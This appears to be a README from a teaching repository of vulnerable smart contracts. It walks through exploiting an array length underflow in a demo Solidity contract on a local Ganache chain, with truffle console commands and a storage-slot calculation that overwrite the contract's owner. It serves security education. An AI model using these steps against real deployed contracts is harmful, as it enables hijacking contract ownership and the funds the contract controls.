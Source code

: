 # Array length underflow

## Description

You can change array length to cover the whole storage address space. Then if there are any functions manipulating variables you can access them
by address in storage.

### What to do:

1. run `truffle compile`
2. open Ganache and run `truffle migrate`
3. run `truffle console`
4. run `ArrayLengthUnderflow.deployed().then(function(instance){return instance.getLength.call();}).then(function(length){return length.toNumber();});`. The array length is 1 now
5. run `ArrayLengthUnderflow.deployed().then(function(instance){return instance.underflow();});` 2 times. The array length is now 2^256 covering the whole storage address space
6. To modify the contract's owner you should know the storage address of the owner variable. To get it you can run python3 code: 
`hex(0x10000000000000000000000000000000000000000000000000000000000000000 - 0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563 + 0x1)
` where 0x10000000000000000000000000000000000000000000000000000000000000000 is 2^256, 0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563 is keccak256(uint(0)), 0x1 is
owner's storage address number. 0x0 contains array length while the next one, 0x1 contains owner's variable address.
7. run `ArrayLengthUnderflow.deployed().then(function(instance){return instance.owner()});`. It will return owner's address `0x627306090abab3a6e1400e9345bc60c78a8bef57`
8. run `ArrayLengthUnderflow.deployed().then(function(instance){return instance.modify('0xd6f21326ab749d5729fcba5677c79037b459436ab7bff709c9d06ce9f10c1a9e', '0xabc')});`. Owner's address is `0x0000000000000000000000000000000000000abc` now